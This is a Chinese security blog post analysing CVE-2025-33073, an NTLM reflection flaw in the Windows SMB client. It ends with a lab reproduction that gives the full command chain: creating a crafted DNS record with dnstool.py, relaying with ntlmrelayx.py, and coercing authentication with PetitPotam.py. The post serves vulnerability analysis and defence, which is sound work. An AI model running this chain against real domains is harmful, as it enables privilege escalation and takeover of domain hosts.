 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzI2NDQyNzg1OA==&mid=2247494086&idx=1&sn=fecf324f9ab98512f9702308494b5877

#  域内大杀器：CVE-2025-33073 NTLM Reflection攻击  
原创 谢公子  谢公子学安全   2025-06-15 16:53  
  
**漏洞背景和描述**  
  
2025年6月10日，微软发布了每月例行的安全补丁更新。在此次更新中，编号为CVE-2025-33073的严重漏洞引起了业界广泛的关注和重视。微软官方对该漏洞的描述为SMB客户端特权提升漏洞。然而，经过深入分析发现，该漏洞的威胁程度远远超出了普通意义上的“权限提升”范畴。  
  
具体来讲，CVE-2025-33073 漏洞属于 NTLM Reflection（NTLM反射）攻击，而NTLM Reflection攻击是NTLM Relay(NTLM 中继)攻击的一种特殊形式，指的是将获得的受害者机器的NTLM认证请求重新反射回该请求的原始机器。此前在讨论 NTLM Relay 攻击手法时，我们曾介绍过这种特殊的攻击模式。历史上，微软首次公开 NTLM Reflection 漏洞是在安全公告 MS08-068 中，并在随后的补丁中修复并严格限制了此类从 SMB 协议向 SMB 协议进行反射的攻击手段。因此，长期以来，行业内安全人员普遍认为通过 SMB 协议对自身进行 NTLM Reflection 攻击的手法已经彻底修复并无法再利用。然而，CVE-2025-33073 漏洞的出现，却重新激活了人们对这一攻击路径的关注，并再次暴露出 SMB 协议反射攻击的潜在风险。  
  
通过利用该漏洞，攻击者能够在仅拥有一个普通域用户权限的情况下，远程对域内任意计算机(域控除外)发起攻击，并获取目标机上的最高权限。更为严重的是，攻击者一旦入侵域内一台主机，便可借助该漏洞快速地进行横向移动与渗透，在整个企业域环境中蔓延扩散，最终可能实现对全域主机的整体控制，造成极为严重的安全威胁与不可挽回的损失。  
  
如下图所示，是微软官方对漏洞CVE-2025-33073漏洞所做的介绍。企业安全及IT管理员需高度重视此漏洞所带来的潜在风险，及时采取有效措施进行修补、管控与防范，以保障企业域网络环境的安全与稳定。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cVqPgLMLkm76930sAQZXjJ2puialB90lsVpJxqhicg49McMIrgnsIiczXJcTOnozgQwwolpBl7H0ycQ/640?wx_fmt=png "")  
  
  
**漏洞影响版本**  
  
所有未安装2025.6月安全补丁，且未强制启用SMB签名的所有域内计算机(域控除外)。其中域控制器默认强制启用了SMB签名，因此不受直接影响；而域内除域控外的其他计算机在默认情况下一般并不会开启SMB签名防护，因此在未打补丁的情况下，这些机器极易受到此漏洞的攻击风险。  
  
  
**漏洞复现**  
  
   
  
以下对该漏洞进行复现，实验环境如下：  
- 域：xie.com  
  
- 域控：10.211.55.4  
  
- 攻击者机器：10.211.55.132  
  
- 攻击目标： CA.xie.com (10.211.55.6)  
  
- 普通域用户：test  
  

```
# 创建一个特殊DNS记录，指向攻击者的机器10.211.55.132
python3 dnstool.py -u xie.com\\test -p &#34;P@ssw0rd&#34; -r ca1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 10.211.55.132 --action add 10.211.55.4


#进行监听，攻击目标机器
ntlmrelayx.py -t 10.211.55.6 -smb2support -ts


#进行强制触发，让目标机器向指定DNS记录进行NTLM认证
python3 PetitPotam.py -d xie.com -u test -p P@ssw0rd ca1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 10.211.55.6
```
